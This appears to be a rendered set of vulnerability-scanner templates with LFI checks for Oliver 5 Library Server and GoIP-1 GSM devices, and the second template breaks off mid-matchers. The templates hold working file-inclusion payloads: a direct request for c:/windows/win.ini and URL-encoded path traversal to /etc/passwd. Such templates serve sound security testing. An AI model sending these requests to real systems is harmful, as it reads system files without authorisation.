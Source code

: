 ## Description

- Oliver 5 Library Server versions prior to 8.00.008.053 are vulnerable to local file inclusion via the FileServlet function.
- severity - high
- tags - lfi,oliver,edb,windows

## Requests

- Method - GET

### URL

- {{BaseURL}}/oliver/FileServlet?source=serverFile&fileName=c:/windows/win.ini

### Matchers

**Type - word**

- part - body
- words
  1. bit app support
  2. fonts
  3. extensions
- condition - and

---

# GoIP-1 GSM - Local File Inclusion

## Description

- GoIP-1 GSM is vulnerable to local file inclusion because input passed thru the 'content' or 'sidebar' GET parameter in 'frame.html' or 'frame.A100.html' is not properly sanitized before being used to read files. This can be exploited by an unauthenticated attacker to read arbitrary files on the affected system.
- severity - high
- tags - gsm,goip,lfi,iot

## Requests

- Method - GET

### URL

- {{BaseURL}}/default/en_US/frame.html?content=..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd
- {{BaseURL}}/default/en_US/frame.A100.html?sidebar=..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd

### Matchers
